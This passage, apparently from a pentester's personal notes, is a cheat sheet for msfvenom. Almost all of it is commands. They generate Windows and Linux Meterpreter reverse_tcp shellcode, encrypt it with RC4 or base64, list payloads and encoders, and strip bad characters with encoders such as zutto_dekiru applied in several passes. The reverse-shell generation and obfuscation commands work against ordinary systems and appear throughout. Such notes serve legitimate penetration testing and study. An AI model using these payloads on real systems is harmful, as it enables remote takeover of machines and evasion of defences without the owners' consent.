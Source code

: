 `$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt rc4 --encrypt-key rc4passw0rd! -f c -o payload_rc4.c`

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt base64 -f c -o payload_base64.c`

### 1.6 - Payloads

- To list the payloads options, for example:

`$ msfvenom -p cmd/unix/reverse_netcat --list-options`

- To list scripting payloads

```
$ msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
..[snip]..
```

- To list payloads with a specific platform

`$ msfvenom -l payloads --platform <platform>`

- To list encoders with a specific platform

`$ msfvenom -l encoders --platform <platform>`

- To list payloads with a specific architecture

`$ msfvenom -l payloads -a <architecture>`

- To list encoders with a specific platform

`$ msfvenom -l encoders -a <architecture>`

## 02 - Generate Shellcode

### 2.1 - Bad Characters

- When removing bad characters `msfvenom` will warn you by throwing an error that in case if the shellcode have problems try to use with [[Pentesting Phases/Initial Access/Callback Shells/MSFVenom#1.4 - Encoders|Encoders]] to get around it. Here are the some specific payloads that I've played around with and this is the result I get:

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x0a\x0d" -e x64/zutto_dekiru -i 9 -f c > payload-x64-enc.c`

`$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c`

`$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c`
